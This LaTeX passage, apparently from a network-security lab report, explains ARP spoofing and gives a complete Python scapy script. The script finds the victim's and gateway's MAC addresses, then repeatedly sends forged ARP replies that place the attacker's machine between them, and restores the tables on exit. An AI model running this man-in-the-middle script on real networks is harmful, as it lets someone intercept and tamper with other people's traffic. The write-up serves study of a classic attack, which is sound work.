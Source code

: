 \newpage

\subsection{Setting up  Spoofing}

First of all we need to write our python script to make use of scapy.

The idea is to forge a malign  packet where we tell that the gateway's  address corresponds the attacker machine and from the gateway (the firewall in this case) point of view the victim is replaced by the attacker instead.

Before doing that we also need the gateway and victim's  address, so we'll send a broadcast  request for both the victim and gateway.

\begin{lstlisting}[language=python]{}
from scapy.all import *
import argparse
import time

# Get arguments from command line
parser = argparse.ArgumentParser()
parser.add_argument("--victim", dest="victim", help="Victim's IP Address")
parser.add_argument("--gateway", dest="gateway", help="Gateway's IP Address")
options = parser.parse_args()
victim = options.victim
gateway = options.gateway
# Get mac address of the victim and gateway
# Request victim's mac by sending a Broadcast ARP request
print("Victim's IP:\t", victim)
print("Gateways's IP:\t", gateway)
rqst = ARP(pdst=victim)
victim_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
# Request gateway's mac by sending a Broadcast ARP request
rqst = ARP(pdst=gateway)
gateway_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
print("Victim's mac:\t", victim_mac)
print("Gateway's mac:\t", gateway_mac)


print("-----ARP Spoofing------")
try:
    while True:
        #Sends a packet to the victim that fakes being the gateway
        #But the mac address comes from this machine
        packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway)
        send(packet, count=4, verbose=True)
        #The same but this time we fake being the victim
        packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim)
        send(packet, count=4, verbose=True)
        time.sleep(1)
except KeyboardInterrupt:
    # When the program is interrupted we restore the ARP table by
    # sending correct ARP packets by specifying the mac address
    print("Restoring ARP tables")
    packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway, hwsrc=gateway_mac)
    send(packet, count=4, verbose=True)
    packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim, hwsrc=victim_mac)
    send(packet, count=4, verbose=True)
    print("Done")
\end{lstlisting}


